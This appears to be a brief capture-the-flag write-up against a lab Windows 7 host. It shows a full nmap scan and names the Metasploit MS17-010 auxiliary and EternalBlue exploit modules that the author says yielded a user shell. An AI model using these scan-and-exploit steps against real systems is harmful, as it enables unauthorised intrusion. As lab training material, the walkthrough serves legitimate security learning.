 Target: 10.10.10.40

`nmap -sC -sV -A 10.10.10.40 `
Nmap scan report for 10.10.10.40
Host is up (0.24s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT      STATE SERVICE     VERSION
135/tcp   open  msrpc       Microsoft Windows RPC
139/tcp   open  netbios-ssn Microsoft Windows netbios-ssn
445/tcp   open  microsof    Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc       Microsoft Windows RPC
49153/tcp open  msrpc       Microsoft Windows RPC
49154/tcp open  msrpc       Microsoft Windows RPC
49155/tcp open  msrpc       Microsoft Windows RPC
49156/tcp open  msrpc       Microsoft Windows RPC
49157/tcp open  msrpc       Microsoft Windows RPC
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled but not required
|_clock-skew: mean: 9s, deviation: 2s, median: 8s
| smb2-time: 
|   date: 2023-10-30T10:20:52
|_  start_date: 2023-10-30T10:10:58
| smb-os-discovery: 
|   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
|   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
|   Computer name: haris-PC
|   NetBIOS computer name: HARIS-PC\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2023-10-30T10:20:51+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Using metasploit
`msfdb init && msfconsole`
auxiliary/admin/smb/ms17_010_command
auxiliary/scanner/smb/smb_ms17_010
exploit/windows/smb/ms17_010_eternalblue

using both of the auxiliaries and the exploit from metasploit, i'm able to have access to the user shell.
The vulnerability (https://learn.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010) are found from the old Windows 7 that are being use by the target.
